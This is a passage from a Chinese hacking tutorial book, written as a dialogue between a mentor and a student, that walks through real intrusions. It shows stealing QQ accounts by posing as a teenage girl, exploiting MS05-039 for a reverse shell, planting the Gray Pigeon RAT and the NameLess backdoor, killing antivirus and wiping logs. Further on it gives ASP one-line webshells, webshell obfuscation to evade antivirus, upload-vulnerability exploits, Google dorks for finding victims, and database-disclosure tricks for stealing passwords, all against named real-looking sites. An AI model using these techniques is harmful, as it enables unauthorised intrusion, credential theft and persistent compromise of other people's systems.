> “可是我说欠兄，我怎么总感觉不对啊，这些木马每个我都会配置了，我总觉得要把它送给别人运行是一件很难的事……”

“哈哈，早就料到你会这么说了，下面就给你看看钱叔是怎么做到这一点的吧！首先把我的 QQ 资料改个名字，叫做‘小影子’吧，性别自然是改成 MM 了，年龄做成 17 岁，纯情一些好哦，其他的资料，随便抄上一段煽情的话……”如图 3.29。

阿剑剑瞪大了眼睛看着欠钱那个老男人装纯情，只见欠钱万事具备了以后，搜索了一个群，不需要验证就进去，看到里面聊得好不热闹。欠钱什么事也不干，只管发笑脸的表情，没一会儿就好几个自称大哥哥的家伙上当加“她”了。


图 3.29

欠钱仗着打字速度快，同时与这几个家伙“盘旋”，终于，看到了一个胜利果实：

```
小影子：我有张刚拍的照片，你要看吗？
GG：好啊！
过了一会……
GG：哇！你好漂亮啊！
小影子：呵呵，你真会说话
```

60 秒后，GG 的头像暗了下去，再过了 60 秒，欠钱已经打开了 GG 的 QQ，飞速地将密码改掉，于是，一个 QQ 到手了。

> 阿剑剑恍然大悟：“刚才那个照片是你用阿华系列的盗 Q 工具干的！你设置了 1 分钟后自动掉线对吧！”

欠钱呵呵一笑：“是啊，这就是最简单的传木马的方式，这在黑客术语里叫做‘社会工程学入侵’。有的时候，人的漏洞才是最大的漏洞！不过这里有点投机取巧的味道，把它在……”

## 第二十三节

> “你面前完整演示一遍，不过是要提高你的安全警惕性。下面我会用一次真实的入侵来给你看看如何完成一次完整的入侵！”

### 3.8 一次完整的入侵

一个月黑风高之夜，欠钱回到亲爱的母校：XX 理工大学（因为校园网里有漏洞的机器比较多），随便找了一台机器上网。

坐下后，欠钱看了一下，机器上安装的是 Windows2000 的操作系统。很好，如果是 98 的话好多黑软都运行不了。打开 QQ，从网络硬盘里把常用的黑软往机器上拖，同时打理一下思路：

整个学校有好几个网段：202.1xx.160.1~202.1xx.175.254、218.1xx.138.1~218.1xx.149.254……而最主要的服务器是在 202.1xx.88.1~202.1xx.88.254，这一段防火墙以及入侵检测系统非常完善，扫描的话绝对不能惹到这个危险地段。使用 ipconfig 知道自己的 IP 是 202.1xx.161.84。

好了，既然知道了自己的 IP 地址，那么把网段由自己的 IP 地址扩展一下：202.1xx.160.1~202.1xx.170.254。我们就在这一个范围内寻找肉鸡吧！最近出的漏洞最好用的当然是 MS05039 漏洞了！打开 MS-05039 扫描器开始扫描，如图 3.30。


图 3.30

耐心地等待了一会，找到十多个没打补丁的。随便挑了一个 IP，在 CMD 下，使用 nc -l -p 1234 监听 1234 端口，再使用 ms05039.exe 溢出它：ms05039 202.1xx.xx.xx 202.114.161.84 1234，反向得到一个 shell，如图 3.31。


图 3.31

### Easy Hacker

很快，在 nc 那个窗口就出现了一个 shell：

```
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\\WINNT\\system32>
```

看来是一个 2000 的系统，那么是不是服务器版本的呢？执行 `query user` 看看。

```
C:\\WINNT\\system32>query user
query user
这个工具需要运行终端服务。
```

哈哈，看来运气不错，居然是一台没有开过 3389 的 2000 server！很有可能它以前没被人入侵过哦！

一般来说，得到了 shell 后，最重要的就是要知道当前管理员是否在线，所以我们动作要非常小。先使用 `net localgroup administrators` 查看一下管理员有哪些。

发现只有一个 Administrator，没有多余的帐号。那么我们查看一下这个用户的资料：

```
net user administrator
用户名                     Administrator
......
上次登录                   2005/10/11 下午 02:19
......
命令成功完成。
```

看到了吧？今天下午管理员才登录的，现在估计还坐在电脑面前呢，嘿嘿，在管理员眼皮下面做事，一切都要谨慎啊！

输入 `net start` 查看它开了哪些服务：`net start`，基本上都是些正常的服务，其中有几条特别刺眼：

```
Symantec AntiVirus
Symantec AntiVirus Definition Watcher
Symantec Event Manager
Symantec Settings Manager
```

这不就是传说中的诺顿吗？如果有它存在的话，我们的黑软要传上去就会被杀掉。不过没关系，我有一个改造过的 `mt.exe`，一般杀毒软件都认不出来的。我们将它传上去以后，把诺顿杀掉再说吧！

架起 TFTP 服务器，将 `mt.exe` 放在同一目录下，在 shell 中执行：`tftp -i 202.1xx.`161.84 get mt.exe，没想到提示我们这么一句话：`'tftp' 不是内部或外部命令，也不是可运行的程序或批处理文件。`看来是 tftp.exe 被管理员删掉了，试看 ftp 行不行。输入 `ftp -h`，结果很快有反应了，出现了一堆文字，大意是 ftp 的语法如何。记得一定要有 `-h` 参数，否则 shell 会挂掉。

看来 ftp.exe 没有被删除掉，那么试试看使用 ftp 上传吧。打开 20CN 的 miniFTP 服务器，设置好用户名与密码以及路径。在本机测试了一下如下代码，确认无误可以使用后，再复制到 shell 中执行：


```bash
echo open 202.1xx.161.84>ftp
echo a>>ftp
echo a>>ftp
echo bin>>ftp
echo get mt.exe>>ftp
echo bye>>ftp
ftp -s:ftp
```

速度飞快，一眨眼就传好了。校园网里入侵就是有这好处，肉鸡多而且网速好，实在再惬意不过了。这次 mt.exe 已经正常地传上去了，`dir mt.exe` 看看，果然很乖地躺在了下面。执行 `mt -pslist` 看看它在做什么，结果发现进程很少，但是居然有一个 `logon.scr`。这是屏幕保护程序的进程名！难道说他不在电脑面前？

不管了！既然给我们机会就要把握，刚才不是配置了一只鸽子吗？给它装上吧！首先用 `mt -pskill` 把进程中有 NAV 字样的进程都干掉（诺顿相关进程）！这下打死它也认不出我们的鸽子了吧！

因为上次配置好鸽子了以后，我就把它上传到我的空间上：`http://wukong.php2h.com/setup.exe`，这里又有了 mt.exe，所以我使用它的下载功能来传文件吧！**mt -netget URL 本地文件名**，这里我们输入：`mt -netget http://wukong.php2h.com/setup.exe setup.exe`，就自动从空间上将文件下载回来并保存为 setup.exe 了！直接在 shell 中执行 setup.exe，不一会就会看到 setup.exe 自动删除了。嘿嘿！

接下来我们要打开灰鸽子客户端了！单击自动上线选项，将 IP 地址改为 202.1xx.161.84，然后更新到 FTP。没一会，肉鸡就屁颠屁颠地上线了，如图 3.32。


图 3.32

选中该肉鸡后，单击屏幕捕捉按钮，发现确实是屏幕保护在运行着，看来自管理员并不在面前哦！这下就是我们的天下了，如图 3.33。


图 3.33

选择文件管理器，进入它的 system32 目录下，单击那个向上的箭头。我要再给它装一个 NameLess 做双保险，要不然鸽子被发现了肉鸡就丢了。弹出个对话框让我们选择需要上传的文件，如图 3.34。


图 3.34

NameLess 上传完毕以后，单击中间那个“Telnet”的按钮，于是我们就得到一个模拟的 shell，如图 3.35。


图 3.35

在里面执行 NameLess 的安装命令：`rundll32.exe NameLess.dll,Install ClipSrv zyqq 123456`，然后：`net start ClipSrv`，NameLess 这个后门就成功地安装上去了！接下来，我们还要做些什么呢？因为这个灰鸽子是直接从网上下载的，一旦管理员重新启动机器，诺顿就会毫不留情地将我们的鸽子干掉！所以，与其被发现，还不如我们自己卸载掉它。我们切换到“命令广播”选项卡中，选中它，在下面的“常用命令广播”中单击“卸载灰鸽子”就 OK 了，如图 3.36。


图 3.36

可是，我们不是还没有删除掉日志么？万一被管理员发现蛛丝马迹怎么办？这时候我们可以使用 NameLess 后门自带的删除日志功能，方法如下：使用 `nc 202.1xx.xx.xx 80`，连接上肉鸡的任意端口，输入：`zyqq|202.1xx.161.84:7788`，回车后，我们在本机使用 `nc.exe -l -p 7788` 监听的端口就会收到 shell，输入密码后，进入 Pre-shell 状态，输入命令 `CleanEvent` 就可以了。


3D打印技术  
融入创新未来  
3D打印

## 第四章 防不胜防的攻击——脚本入侵侦探

“欠钱兄，我现在终于学会了如何利用溢出漏洞入侵并用木马控制对方的电脑了。以前还以为黑客有多神秘，没想到这么简单的我也就能控制别人了。”阿剑剑又说道，“这种远程溢出漏洞在局域网（网吧、校园网、公司内部网）中一扫就是一大把，想不成功都难。可昨天我在 Internet 上扫描的时候，费了整整一晚上，也没有找到几个？还有，我昨天扫描了一下我们公司的服务器，没有溢出漏洞呀？那黑客又是如何入侵的呢？”

欠钱和颜悦色地对阿剑剑说：“利用远程溢出漏洞入侵只不过是众多攻击方法中的一种而已，而且早期因为人们的网络安全意识普遍较低，因此这种远程溢出漏洞广泛存在，攻击的成功率很高。可是后来，随着安全意识的提高，以及蠕虫病毒的流行，人们已经越来越重视这个问题。现在的服务器，基本上是只开放必须的服务，像 WEB（80 端口），如果提供 FTP 服务的话就开放 21 端口，如果提供 SMTP 服务的话，就开放 25 端口等，而对于那些不必要的服务则一律关闭，因此在扫描 135、139、445 等端口当然是很少能够找到的了。至于弱口令，就更不用提了。”

听了这些，阿剑剑可不高兴了：“什么！？原来你在前边教我的那些方法都不怎么管用呀！那我学了又有什么用？”

欠钱道：“谁说不管用了，在局域网里不是还挺有用的嘛。另外，对于许多宽带上网的个人用户来说，还是存在这些远程溢出漏洞的，只是对于网站来说基本上没这种漏洞了。”

阿剑剑道：“那要如何入侵网站呢？”

欠钱道：“虽然操作系统本身的远程溢出漏洞对于网站来说已经是昨日黄花，不再流行了，但新的攻击方法却也是层出不穷，像现在入侵网站最流行的方法就是脚本入侵了！”

阿剑剑问道：“什么是脚本入侵呢？”

欠钱回答道：“所谓脚本入侵是针对网站的程序而言的。现在的网站很多都是采用 ASP、PHP、JSP 等编写的，如果这些程序有编写不严密的地方，就可以被别有用心的黑客利用，上传网页木马，取得网站的控制权。之后还可以做更多的事情，甚至可以继续提升自己的权限，进而取得对整个服务器的完整控制而将其作为自己的肉鸡！”

“啊？这么厉害呀，快教教我如何入侵网站吧！我也要学脚本入侵！”

### 4.1 认识ASP网页木马

在学习脚本入侵前，我们首先要认识一下 ASP 木马。这种木马可是在脚本入侵过程中广泛使用的。

ASP 木马其实就是使用 asp 编写的程序，甚至有些 asp 木马就是由 asp 网站管理程序修改而来的。它和其他 asp 程序没有本质的区别，只要是能运行 asp 的空间就能运行它，这种性质也使得 asp 木马非常不易被发觉。它和其他 asp 程序的区别只在于 asp 木马是入侵者上传到目标空间，并帮助入侵者控制目标空间的 asp 程序。要想禁止 asp 木马运行就等于禁止 asp 的运行，对于网站来说这显然是行不通的。ASP 木马也被黑客们称为 webshell。


图 4.1 显示的就是一个典型的海阳顶端 2006 的 ASP 木马，输入密码后会看到如图 4.2 所示的界面。例如我们打开第八个功能“FSO 文件浏览操作器”，此时将最右边的“盘符”下拉框里选中“..”，如图 4.3，这样就可以看到该 ASP 木马所在目录下的所有文件了，如图 4.4。


图 4.1


图 4.2


图 4.3  
图 4.4

使用最上面一排很人性化的按钮，我们可以非常轻松地操作这些文件。比如选中其中某一个文件以后，该文件图标变为深色表示被选中，此时单击“编辑”就可以查看到里面的内容了，如图 4.5、图 4.6。

其他功能在使用上都差不多，以后要用到的时候我会一一给大家介绍。


图 4.5  
图 4.6

下面我们再来认识一下其他的几款 ASP 木马。使用刚才的海阳 2006 木马 FSO 里上传的功能，找到其他的木马上传上去，如图 4.7。


图 4.7

我上传的是桂林老兵写的 ASP 站长助手的改进版，访问时登录界面如图 4.8，登录后如图 4.9 所示。右下方每一个文件对应着有 edit、del、copy、move 四个按钮，意思是“编辑”“删除”“复制”“移动”。


图 4.8


图 4.9

我们单击相应的按钮就可以操作该文件了。单击左边的各个按钮，我们可以查看到服务器的相关信息，如图 4.10。


图 4.10

接下来我们再来上传蓝屏大叔的 C/S 木马，如图 4.11。


图 4.11

单击站长助手左边的“文件上传模块”，找到蓝屏大叔的 C/S 木马。上传成功后，需要使用登录器来登录，如图 4.12。


图 4.12

填入木马所在的地址，单击登录后如图 4.13 所示。


图 4.13

它的操作与 ASP 站长助手差不多，只不过功能没那么多。

下面我们再介绍两个 asp 木马：冰狐狸子的一句话木马与海阳顶端木马的 C/S 版。这两个木马的共同点是有服务端与客户端，而且服务端都只有一句话。

冰狐狸子的一句话木马内容如下：`<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>try{eval(Request.form('#')+'')}catch(e){}</SCRIPT>`，我们将它保存为一个 ASP.asp，然后上传到服务器上。`http://www.zosn.net/asa/asp.asp` 为上传后的地址。

```asp
<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>
try{eval(Request.form('#')+'')}
catch(e){}
</SCRIPT>
```


图 4.14

打开冰狐浪子的客户端（icyfox007.htm），如图 4.14。将刚才的地址填入“ASP URL”一栏，我们在“环境探测”处会发现有几个选项，任意选择一个，单击“RUN”，如图 4.15。


图 4.15

如果选择“ASP 客户端”则可以得到一个带有文件操作与命令执行的 webshell，如图 4.16。


图 4.16

注意冰狐浪子的一句话木马里的 `Request.form('#')` 了吗？把这个“#”改为别的字符，比如 zyqq，那么在冰狐浪子的客户端里就要把 Password 处改为 zyqq 才可以访问了。这个木马可以单独保存为一个 ASP 文件，也可以插入网站上原有的 ASP 文件的某个隐藏地方。它是国内第一个 ASP 一句话木马，功能与界面上虽有所不足，可是却也相当鼓舞人心了。

接下来我们来看一下海阳顶端木马的一句话 eval 版。其一句话木马内容如下：`<%eval request('#')%>`，比冰狐浪子的那个一句话木马还要短很多吧！

我把它插入到了 `http://www2.zzu.edu.cn/clgc/char.asp` 这个文件中，然后打开海阳顶端木马里带的一个 2006c 端的“例子.htm”，如图 4.17。“表单提交地址”里填的就是刚才那个地址，密码处默认是“#”。如果刚才我们把一句话木马的内容改为了 `<%eval request('zyqq')%>`，那么此时密码就得填写“zyqq”了。


图 4.17

找到提交内容里的 `Const userPassword = "123456"`（“管理密码”）一句，将它改为自己需要的密码，或者是直接改为 `Const userPassword = ""`（“管理密码”），表示不设置密码。提交后如图 4.18 所示。


图 4.18

怎么样，是不是觉得和直接上传一个海阳顶端 2006 没什么区别啊？我们登录看看，如图 4.19。完全可以正常使用！


图 4.19

阿剑剑：“欠钱，等一下，ASP 木马上传之前长什么样啊？你刚说输入密码后就可以登录了，可我怎么知道密码是什么啊？”

欠钱居然连这个关键问题都忘记交代了：“其实 ASP 木马我们用记事本打开后，它的所有内容都可以看得很清楚了。比如我用记事本打开一个海阳顶端 2006 木马，如图 4.20。注意我给你圈出来的地方，把双引号里的内容改为你自己的密码后，保存下来，这个 ASP 木马的密码就设置好了。”


图 4.20

阿剑剑：“这么简单啊？那如果管理员看到了我的 ASP 木马，或者被别的入侵者看到了它，不就知道了我的密码了吗？”

欠钱：“那这样吧，我再教你如何把 ASP 木马加密。这样有两个好处：一是别人看到的 ASP 木马内容是乱糟糟的，二是很多杀毒软件会认不出加密以后的 ASP 木马。”

我使用的是 asp 编码/反编码工具，打开后如图 4.21 所示。


图 4.21

从左边的资源管理器里找到我们海阳木马所在的目录，选中海阳木马后，右边会自动显示木马的内容，单击加密按钮（图中标出的按钮），就会发现里面的内容全部变得看不懂了，如图 4.22。这时候全选，复制下来保存到另一个文件里，比如 2007.asp，我们就得到了一个加过密的海阳木马了。


图 4.22

这个木马我们不认识，杀毒软件也不认识，可是服务器自己却认识，还是一样可以正常执行的！

> 阿剑剑：“可是，我们怎么样才可以把自己的木马上传到服务器上呢？”

欠钱：“这就要入侵网站了，我们首先介绍最简单的入侵方法——上传漏洞！”

### 4.2 上传漏洞的利用

#### 4.2.1 动网上传漏洞

这个漏洞是 2005 年由一些网络高手们首先公布的，最初发生在动网 DVBBS 7.0 及以下版本上。我们首先来了解一下它的原理：DVBBS 论坛的上传只允许图片等几种格式的文件，比如是一个 GIF 图片，它会在保存的时候以如下格式保存：“上传目录[UploadFile]+时间[2005-4-9 11:18:27]+随机数[57003]+[.]+扩展名[jpg]=UploadFile/20054911182757003.jpg”。可是由于上传目录参数可以由我们提交，那么我们把上传目录改为 `mm.asp⊙`，“⊙”代表“\0”，在计算机中，读到“\0”时就会结束，于是我们上传的文件就以 asp 格式保存下来了。

首先来看看低版本的 DVBBS 的上传漏洞：DVBBS 论坛打开后的界面如图 4.23 所示。这是一个 6.0 的版本，我们把页面拖到最下方可以看到有版权信息。一般来说，5.0 与 7.0 未打补丁的版本也存在漏洞。


图 4.23

我们直接访问它的 upfile.asp 会看到如图 4.24 所示的界面，这样就表示它存在漏洞。如果显示为一片空白或者是找不到该页面则无法继续。


图 4.24

接下来我们利用桂林老兵的通用上传工具来进行上传木马，把 upfile.asp 的完整地址写入“提交地址”栏里，在“本地文件”栏里通过浏览小按钮找到我们的 ASP 木马，把上传路径写为一个我们喜欢的名字，比如 muma.asp，如图 4.25。


图 4.25

单击“提交”按钮就会看到有提示说成功了，如图4.26。


图4.26

此时，访问论坛的 muma.asp，就会看到我们的 ASP 木马已经乖乖地躺在那儿等着我们呼唤呢，如图4.27。


图4.27

因为动网 DVBBS 低版本的上传漏洞早期使用得太多，因此现在几乎已经在网上消失了，所以我们在实际的入侵中往往寻找到的是别的系统的上传漏洞，它们的原理基本上是一样的。

## 第四章

#### 4.2.2 尘缘雅境图文系统低版本上传漏洞

我们来看看尘缘雅境图文系统 V3.0 ACCESS 版的上传漏洞，它的 admin/uploadfaceok.asp 存在着上传漏洞。打开 www.google.com，选择高级搜索，填入关键字：ACCESS 版 build 20030123，如图4.28。


图4.28

将每页显示改为 100 项，单击“搜索”，结果如图4.29。


图4.29

约有 132000 项符合条件的呢，随便点开一个网站，比如第一个，其网址为：http://www.adult.wh.sdu.edu.cn/ADMIN/LOGIN.ASP，如图4.30。


图4.30

我们把最后的页面改为 uploadfaceok.asp，也就是：http://www.adult.wh.sdu.edu.cn/ADMIN/uploadfaceok.asp，将其填入我们的利用工具，这里我选用的是明小子的 Domain 3.5 版。打开此工具，如图4.31。


图4.31

切换到“综合上传”选项中，在提交地址填入上面的网址，单击“上传”，如图4.32。


图4.32

失败了！没关系，我们再继续找下一个，一直到出现如图4.33的提示“上传成功”的对话框，此时我们单击 Webshell 右边那个“打开”按钮就可以看到如图4.34的界面，这也是一个 ASP 木马。


图4.33


图4.34

这个 ASP 木马的主要功能是把我们提交的数据使用 FSO 功能保存到指定位置。从该页面我们可以得到该 ASP 文件绝对的路径 D:\zzuweb2\wwwroot\clgc\xuegong\admin\diy.asp，把刚才做好的 ASP 木马使用记事本打开，把里面所有的代码复制到“输入文件的内容”右边的输入框，在“保存的路径”处填入其它的地址，比如：D:\zzuweb2\wwwroot\clgc\xuegong\admin\2007.asp，如图4.35。


图4.35

单击“保存”按钮，如果提示保存成功，我们就可以访问：http://www2.zzu.edu.cn/cgc/xuegong/admin/2007.asp 来得到我们的海阳木马了！

当然了，我们也可以使用 Domain 3.5 来把海阳木马上传上去，方法是在填入存在漏洞的页面后，把“默认网页木马”改为“自选网页木马”，并单击“文件名”右边那个小小的图标浏览找到自己的 ASP 木马，然后再单击“上传”，如图4.36。


#### 4.2.3 动感下载系统低版本上传漏洞

动感下载系统是使用得很多的一款下载系统，不过它的上传漏洞也只存在于相当低的版本中。同上面一样，我们到 Google 去搜索一下低版本的网站，这次关键字改为：“本下载系统推荐在厦门中资源的服务器空间上运行”，如图4.37。


随便挑几个，比如 http://www.txxdsyxx.com/softdown/，打开以后看到下面的版权信息已经被改得面目全非了，不过“本下载系统推荐在厦门中资源的服务器空间上运行”这句话还在哦，这也正是我使用那句话做关键字的原因，如图4.38。


它的上传页面是 `upfile.asp`，所以我们把 `http://www.txxdsyxx.com/softdown/upfile.asp` 填入 Domain3.5 的提交地址里，这次我们把文件名改一下，比如 `test.asp`，如图4.39。


图4.39

出现 `value="test.asp"` 这样的字样就证明我们上传成功了！

#### 4.2.4 动力文章系统上传漏洞

动力文章系统在整站系统中的地位几乎可以和 DVBBS 在论坛中的地位相媲美。它在 3.6 及以下版本存在严重的上传漏洞。不过在利用上和前面稍微有一点区别。它首先判断用户是否登录，如果未登录将提示不能继续上传。然后上传时会检测你上传的文件的扩展名是否合法。如果通过检查，则检测 uploadfile 文件夹下是否存在同名文件，若存在则将使用时间加随机数生成文件名的办法避免覆盖原文件。

由于漏洞存在的页面是 `upfile_soft.asp`，直接访问它会提示需要登录，如图4.40。


图4.40

我们先去注册一个 ID，注册的过程相信大家都会。注册好了以后正常登录。此时我们要把 COOKIES 信息抓出来，利用 Wsockexpert 这个抓包工具很容易做到这一点（以下简称 WSE）。

### 小知识 什么是 COOKIES

> COOKIES 是程序在我们电脑中留下的一些小文本，把我们登录的一些信息，比如用户名、密码、登录时间等保存在里面，然后网页通过读取这些信息判断我们是否为合法用户，或者是否有登录到网站上。同样作用的还有 session，不过 session 是保存在服务器端的。

打开抓包工具 WSE 如图4.41，单击那个像文件夹一样的按钮，弹出对话框，我们找到要监听的程序，因为都是通过浏览器来访问的，所以我们在 iexplore.exe 里找到我们访问自由动力的进程，单击“打开”就开始监听了。


图4.41

这时候回到访问自由动力页面的 IE 随便点一个东西，比如发表帖子，然后抓包工具里的数据就会飞一样地冒出来。单击停止抓包的按钮，随便找一条 SEND 的数据，复制下面 COOKIES 后面的内容，如图4.42。


图4.42

得到 COOKIES 后，回到 Domain3.5，首先将上传类型由默认的“动网上传”改为“动力上传”，然后再将 COOKIES 写入对应的位置。写好提交地址后，最好将文件名改一改，比如我改为了 zyqq.asp。单击“上传”，结果如图4.43所示。


图4.43

在利用动力文章系统上传漏洞里需要注意的是，如果第一次上传成功了，会在服务器上留下一个 zyqq.asp（名字是你自己定的），第二次上传的时候则必须换一个新的名字，否则会失败。还有就是某些低版本的动力系统连 COOKIES 都不需要抓，直接把上传类型改为“动力”，填入上传漏洞页面的地址，提交就可以成功了。

下边给出在 Google 搜索时使用的关键字：“才能达到最佳浏览效果 inurl:admin_login.asp”。

## 4.2.5 其它系统的上传漏洞

讲了这么多的上传漏洞的利用后，大家想必也熟悉了整个流程了吧，无非是找到上传的页面，单击上传，有的还需要抓取 COOKIES。最大的问题可能只是你不知道哪些系统存在上传漏洞，还有该如何寻找这些系统。比如动感商城购物系统，它存在上传漏洞的页面是 upfile_flash.asp，使用 Google 搜索的关键字为：“非本站会员请勿登录” intitle:管理员登陆；还有乔客论坛 Joekoe V6.0、Dxxo 论坛、天意商务网等等非常多的系统低版本都存在类似的漏洞。这时候我想更值得一提的就是，如何选择关键字来搜索了！

### 4.3 Google 与百度搜索引擎使用技巧

> 黑客圈子里有一句名言：“Google 是最好的老师”。不会使用 Google 或者是百度等搜索引擎来查找需要的信息的菜鸟不是一个合格的菜鸟。本小节我就把 Google 搜索时经常用到的一些技巧介绍一下。

#### 一、关键字尽量地短

在 Google 搜索时，关键字越长，搜到的结果越少。比如搜索“bbsxp”要比搜索“Powered by :BBSXP 5.15”得到的结果要多得多，但是后者却更接近我们需要搜索的目标一些，准确率会高很多。

#### 二、双引号

比如我们搜索：职业欠钱（不加引号），看到搜索结果如图4.44；但是如果我们将关键字加上双引号，再看看搜索结果，如图4.45。结果少了很多，可是准确度却大大地提高了，这才是我们要搜索的东西。


图4.44


图4.45

#### 三、inurl、intitle 等语法

像动感商城这样的系统，我找了很久也没找出一个特别的地方来，但是最后发现它的后台登录界面标题是：管理员登陆，而该页面还有“非本站会员请勿登录”，我们可以告诉 Google，搜索的时候只搜索那些标题栏里有管理员登陆字样的页面，所以我给出的关键字里有一个 intitle。而前面那句话还加了双引号。现在大家明白是为什么了吧？同样，有的时候一些页面只出现在特定的文件名里，我们还可以使用 inurl。

比如我们要搜索 DVBBS 6.0，直接这么搜索是完全可以的，但是我们限定了该字样只出现在 reg.asp（注册时的页面）里，关键字设为：DVBBS 6.0 inurl:reg.asp，那么搜索到的结果就准确多了。

#### 四、避免别人使用过多的关键字

一个关键字再好用，如果用的人多了，Google 与百度就会将它屏蔽掉。比如 BBSXP 前阵子刚被公布有漏洞的时候，你使用“BBSXP 5.15”做关键字将什么也搜不到！这时候开动脑筋寻找别的有个性的字样会有特别的发现哦！同样，看完本书后，不少朋友都会使用我教大家的关键字来搜索，这样很多人都会发现被其他人已经入侵过了，恨自己来晚一步，这时不妨自己动动脑子，找找别的关键字吧。

### 4.4 暴库漏洞

“哈哈，不学不知道，黑客真奇妙！原来黑客入侵网站这么简单呀，上传个 asp 木马就搞定了。看我也黑几个网站，在他们的首页上也写上啊剑剑的大名，那多爽呀！”

欠钱道：“啊剑剑，你先别得意得太早。上传漏洞只不过是入侵的一种方法而已，如果对方补上了这个漏洞的话，那这个方法就不行了，入侵者此时就会想到另一种入侵的途径——暴库！”

啊剑剑问道：“暴库是什么？”

欠钱道：“顾名思义，暴库就是暴露出数据库的路径及名称，这样，我们就可以通过浏览器直接下载对方的数据库了，这和下载其他的程序是一样的。”

啊剑剑：“哦，原来是这样，那下载数据库有什么用呢？”

欠钱看了啊剑剑一眼，说道：“许多使用 ASP 程序的网站都喜欢使用 Access 来作为数据库，而 Access 数据库默认的格式是 MDB 文件，只要知道这些 MDB 在网站里的路径，任何人都可以将它下载回来，这些数据库通常保存了一些注册用户的用户名、口令及其他的一些相关信息，比如 QQ 号码、MSN 号码、电子邮箱地址等，而许多个人用户喜欢共用一个口令，因此得到了这些口令是很重要的，如果你得到了管理员的口令的话，不就可以控制网站了吗？”

下边我们以动网为例，来讲一下暴库。DVBBS 6.0 及以前的版本存在该漏洞，由于 conn.asp（数据库连接文件）里没有容错代码，当我们提交恶意数据可以使它找不到数据库，并将错误的数据库位置暴露出来。然后我们再猜测真实的数据库路径并将其下载回来慢慢研究。

首先到 Google 里搜索 DVBBS 6.0 的论坛，使用的关键字是：dvbbs Version 6.0.0 inurl:reg.asp。随便点开一些论坛，要注意，如果对方的论坛地址是：http://www.bbs51.org/reg.asp 这种没有带任何目录的话，就不要试了，因为暴库必须发生在二级目录以上的位置，比如 http://www.bbs51.org/bbs/reg.asp（这里有一个 bbs 的二级目录）。

很快找到一个论坛：http://www.aimgroup.cn/bbs/，如图4.46。我们访问它的 conn.asp，也就是 `http://www.aimgroup.cn/bbs/conn.asp` 时，将最后一个“/”改为“%5c”，结果如图4.47所示。


图4.46


要理解这句话的意思，首先要了解 IIS 的一些常识。

虚拟路径与绝对路径：  
IIS 可以将我们的网页发布到互联网上，比如在 http://www.aimgroup.cn 这台服务器上，它就是将 `E:\htdocs\aimgroup_cn\` 里的所有内容发布出来。这个时候，`E:\htdocs\aimgroup_cn\` 就是该站的绝对路径，也称物理路径。  
如果我们在 http://www.aimgroup.cn 下建立一个目录 test，把它的物理路径指向 `D:\wwwroot\`，那么 http://www.aimgroup.cn/test/ 中的 test 就是一个虚拟路径。  
暴库的成因：我们把 http://www.aimgroup.cn/bbs/conn.asp 的最后一个“/”变成了“%5c”，那么 conn.asp 就会认为 http://www.aimgroup.cn/bbs%5cconn.asp 的虚拟路径是根目录，于是到 `E:\htdocs\aimgroup_cn\` 下去寻找 `data\dvbbs2003.asp`，而实际上 `data\dvbbs2003.asp` 是在 bbs 目录下，也就是 `E:\htdocs\aimgroup_cn\bbs\data\dvbbs2003.asp` 里，因此 conn.asp 找不到该文件，提示我们如图4.47的错误信息。根据错误信息我们很容易推算出 http://www.aimgroup.cn/bbs/data/dvbbs2003.asp 就是数据库的实际位置。不过如果我们访问 http://www.aimgroup.cn/bbs/data/dvbbs2003.asp 的话，会看到如图4.48的提示，这是因为管理员将数据库做了防下载处理了，我们遇到这样的数据库是无法下载的，但是如果是像图4.49这样的话，我们就可以成功下载了。


图4.49

下载完数据库后双击打开，查看 user 表里的内容，如图4.50。所有用户名与密码都清晰地显示在我们面前。

| UserID | UserName | UserEmail | UserGroupID | Article | UserPassword |
|---|---|---|---|---|---|
| 1 | admin | ... | 1 | 45 | 123456789 |
| ... | ... | ... | ... | ... | ... |

图4.50

用户名 admin，密码 123456789，我们到首页登录一下，很快就进入了后台，如图4.51。


图4.51

找到论坛版面管理，将上传文件类型增加一个 asp 类型，回到前台发帖子，上传一个 ASP 木马，我们就成功获得此网站的 Webshell 了，如图4.52、图4.53。


图4.52


啊剑剑：“现在得到 Webshell 又多了一种方法，不过，我们得到这些 webshell 之后到底可以做些什么啊？你从上传漏洞讲到现在还没有给我讲这个呢。”

欠钱：“还记得在前边讲溢出攻击的时候我们每次都是到获得 shell 就停止吗？这是因为得到 shell 的方法很多，而得到了 shell 之后做的事情往往都差不多，所以你先别急嘛。等我们学会了大多数获得 Webshell 的方法之后，我会告诉你得到了这个 Webshell 有什么用的。”

啊剑剑：“那还有别的方法可以得到 Webshell 吗？”

欠钱：“当然有了，像刚才那个 DVBBS，我们把允许上传的类型增加一个 asp 类型后，就可以上传 ASP 木马了，可是很多时候这样做是不行的。我们可以换一种思路来上传，比如备份数据库。”

备份数据库是 DVBBS 后台才有的功能，允许我们指定文件存到另一个目录，同时可以指定任意文件名。那么我们可以首先将 ASP 木马改名为“木马.gif”上传至服务器变为“UpLoadFile/2005102514394871799.gif”，备份数据库将其重新改名为“muma.asp”，访问 `http://www.happysky365.com/bbs3/muma.asp` 就可以得到一个 webshell 了，如图4.54。


### 啊剑剑的入侵日记

今天欠钱教了我脚本入侵里的上传漏洞和暴库，上传漏洞太简单了，点一下按钮就上传完成，要么就失败，没意思，那个暴库倒蛮好玩的，可以下载人家的数据库，我试着照他的做法也入侵了几个网站。可是我在暴 `http://www.17deng.com/hqx%5cconn.asp` 的时候提示这样的信息：`'D:\www\17deng.comw3lpoe0ofh\data\#du4@&7Dridudaidaa.php' 不是一个有效的路径。确定路径名称拼写是否正确，以及是否连接到文件存放的服务器。`

按照欠钱的说法，把 `http://www.17deng.com/hqx/` 与 `\data\#du4@&7Dridudaidaa.php` 合并在一起得到 `http://www.17deng.com/hqx/data/#du4@&7Dridudaidaa.php`，可是我访问的时候却提示错误。

## 防不胜防的攻击

### Easy Hacker

刚想开口问欠钱，想起欠钱说过一句话：“Google 是最好的老师”，所以我就忍了下来，打开 Google 搜了一些关于暴库的资料，后来知道是“#”、“@”、“&”这些符号在作怪。“#”号要转化为“%23”，而“@”或者“&”这些符号有的时候也需要转换成“%40”和“%26”。

把它们都改写好了以后，我访问 `http://www.17deng.com/hg.x/data/%23du4%40%2670ridudaidaa.php`，终于看到提示下载了。可是下载回来一看，傻了眼了，它怎么是 php 文件啊。不管那么多，我把后缀名改为 mdb，小心翼翼地双击它，哈哈，居然成功了！

